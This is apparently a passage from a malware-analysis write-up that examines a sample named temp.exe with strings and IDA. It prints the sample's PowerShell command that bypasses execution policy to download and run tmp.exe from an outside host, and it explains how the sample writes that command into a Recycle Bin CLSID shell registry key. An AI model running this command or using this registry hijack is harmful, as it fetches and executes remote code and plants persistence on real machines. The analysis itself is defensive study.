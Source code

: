I will use `strings` to get an idea about `temp.exe` and I found those two interesting strings
```
$ strings temp.exe
[Truncated]
SOFTWARE\Classes\CLSID\{645FF040-5081-101B-9F08-00AA002F954E}\shell
C:\Windows\System32\WindowsPowerShell\v1.0\Powershell.exe -ExecutionPolicy Bypass -Command "(New-Object Net.WebClient).DownloadFile('http://s1rx.xyz/tmp.exe', 'C:\Windows\Temp\tmp.exe'); Start-Process 'C:\Windows\Temp\tmp.exe'"
```

Upon loading `temp.exe` into `IDA Freeware` and examining its strings, they were found within the `main` function. The target registry key is stored in the `lpSubKey` variable, while the PowerShell command is stored in the `str` variable. The Windows API function `RegOpenKeyExA` is then called, using `SOFTWARE\Classes\CLSID\{645FF040-5081-101B-9F08-00AA002F954E}\shell` as the `lpSubKey` parameter. It specifies a `samDesired` value of `0x20006`, which indicates `STANDARD_RIGHTS_WRITE`, `KEY_SET_VALUE`, and `KEY_CREATE_SUB_KEY` access rights. This means the program is attempting to obtain a handle to this specific registry key with permissions to write, set values, and create subkeys.

![](/assets/images/posts/2025-07-22-ReliableThreat/06.png)

Next, it creates a subkey named `open\\command`. The value from the `str` variable (which holds the PowerShell command) is then used as the `lpData` parameter, setting the value of this new subkey to the previously stored PowerShell command.
